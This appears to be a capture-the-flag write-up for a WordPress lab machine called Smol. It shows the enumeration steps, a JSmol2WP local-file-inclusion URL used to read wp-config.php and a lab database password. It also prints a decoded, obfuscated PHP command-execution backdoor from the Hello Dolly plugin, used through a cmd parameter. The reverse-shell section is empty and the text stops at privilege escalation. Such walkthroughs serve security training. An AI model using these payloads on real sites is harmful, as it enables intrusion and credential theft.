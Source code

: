 #### Introduction
At the heart of **Smol** is a WordPress website, a common target due to its extensive plugin ecosystem. The machine showcases a publicly known vulnerable plugin, highlighting the risks of neglecting software updates and security patches. Enhancing the learning experience, Smol introduces a backdoored plugin, emphasizing the significance of meticulous code inspection before integrating third-party components.

Quick Tips: Do you know that on computers without GPU like the `AttackBox`, **John The Ripper** is faster than **Hashcat**?

---
### Enumeration
#### Nmap
```bash
nmap -p- -A 10.10.244.177                 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-28 16:16 EDT
Nmap scan report for 10.10.244.177
Host is up (0.090s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 05:69:26:94:4c:99:94:63:81:35:c4:7b:e5:4e:18:d4 (RSA)
|   256 50:cc:49:2d:72:21:38:9b:c0:4c:65:e9:b4:dd:31:a2 (ECDSA)
|_  256 d5:e5:b5:a5:72:ed:dd:78:bf:13:b8:8a:51:1b:66:fe (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://www.smol.thm
|_http-server-header: Apache/2.4.41 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   63.74 ms 10.14.0.1
2   83.08 ms 10.10.244.177

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.66 seconds
```

`http-title: Did not follow redirect to http://www.smol.thm` means that the `IP` is not resolved to the DNS address because it is missing from `/etc/hosts` file.

#### Mapping the IP to the DNS address
```bash
sudo vim /etc/hosts
<IP> www.smol.thm
```

Now, we have the website working and showing the web page.

![[Smol_webpage.png]]

Inside the `RCE` title, there's a `Comment` section where it says `You must be logged in to post a comment.` When we click the `logged in` section, we get the `wp-login.php` web page. We can also get there by directory enumeration.

![[wp.png]]
#### Gobuster
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -u www.smol.thm > gobuster       
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://www.smol.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-1.0.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wp-content           (Status: 301) [Size: 317] [--> http://www.smol.thm/wp-content/]
/wp-admin             (Status: 301) [Size: 315] [--> http://www.smol.thm/wp-admin/]

===============================================================
Finished
===============================================================
```

Now, that we have found that the website is using the `wordpress` we can use tools like `wpscan`.
#### WPScan Tool with an API-Token
```bash
wpscan --url http://www.smol.thm --api-token 8c1tS-----------------------1LU

[+] jsmol2wp
 | Location: http://www.smol.thm/wp-content/plugins/jsmol2wp/
 | Latest Version: 1.07 (up to date)
 | Last Updated: 2018-03-09T10:28:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 2 vulnerabilities identified:
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Cross-Site Scripting (XSS)
 |     References:
 |      - https://wpscan.com/vulnerability/0bbf1542-6e00-4a68-97f6-48a7790d1c3e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20462
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
 |
 | Version: 1.07 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://www.smol.thm/wp-content/plugins/jsmol2wp/readme.txt
```

The `version 1.07` and below are vulnerable and we can also see the location of the `jsmol2wp`. At the same time, we can also use the `Nmap Script` to enumerate further.
#### Nmap Script
```bash
nmap -p80 --script http-wordpress-enum,http-wordpress-users 10.10.244.177
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-28 17:05 EDT
Nmap scan report for www.smol.thm (10.10.244.177)
Host is up (0.11s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-wordpress-enum: 
| Search limited to top 100 themes/plugins
|   plugins
|_    akismet 5.2
| http-wordpress-users: 
| Username found: admin
| Username found: wp
| Username found: think
| Username found: gege
| Username found: diego
| Username found: xavi
|_Search stopped at ID #25. Increase the upper limit if necessary with 'http-wordpress-users.limit'

Nmap done: 1 IP address (1 host up) scanned in 13.12 seconds
```

We've managed to get a few `wordpress users` from the nmap script enumeration.

After the nmap script is complete, we navigated to that location `http://www.smol.thm/wp-content/plugins/jsmol2wp/` and found few folders and files. After searching for the `jsmol2wp exploit` and there are a few mentioning `WordPress JSmol2WP <=1.07`, so we followed the `wpscan` website which has the `Local File Inclusion (LFI):
```bash
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php.
```

---
### Initial Access

We changed the `localhost:8000` to `www.smol.thm` and we used this to get the `wp-config.php` file.
![[wp-config.png]]

Inside this file is a password of the `wpuser: kbLSF2Vop#lw3rjDZ629*Z%G`. We used these creds to login to the wordpress and it worked. Under `Pages --> Webmaster Tasks`, there's some kind of `to-do list.`

![[Webmaster-tasks.png]]

The first tasks hints us that there could be a `Hello Dolly` plugin vulnerability. 
#### What is `Hello Dolly` Plugin?
**Hello Dolly** is a simple WordPress plugin that comes `preinstalled` in WordPress. It displays random lines from the song `Hello Dolly` by Louis Armstrong in the WordPress dashboard.

Since, we have found the plugin is installed in the WordPress we can try to Directory Traversal to `plugins`. At the moment, we are here: `http://www.smol.thm/wp-content/plugins/jsmol2wp/php/` and we need to go back two steps to `http://www.smol.thm/wp-content/plugins/` to access `hello.php.` So, the complete address will look like this: 
```bash
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../hello.php.
```

Using the Directory Traversal/LFI, we have managed to get the `hello.php` plugin's content.

![[hello.png]]

There's a base64 encoded code. Let's decode it.
```bash
echo 'CiBpZiAoaXNzZXQoJF9HRVRbIlwxNDNcMTU1XHg2NCJdKSkgeyBzeXN0ZW0oJF9HRVRbIlwxNDNceDZkXDE0NCJdKTsgfSA=' | base64 -d
```

We get this code from the base64 encoded code: `if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); }`. This line is using **obfuscated PHP code** - **octal** and **hexadecimal** character encoding and upon further decoding this, we get: 
```bash
if (isset($_GET["cmd"])) { system($_GET["cmd"]); }.
```

This code is checking if the `cmd` parameter exists in the URL query string. If it does then it passes the value to `system()`, which executes the command and outputs the result on the web page. So, that means we can use this `cmd` parameter to execute our commands. I tried the following and it worked:
```bash
http://www.smol.thm/wp-admin/edit.php?cmd=ls
```

Now, lets try to get a reverse shell:
```bash

```





---
### Privilege Escalation
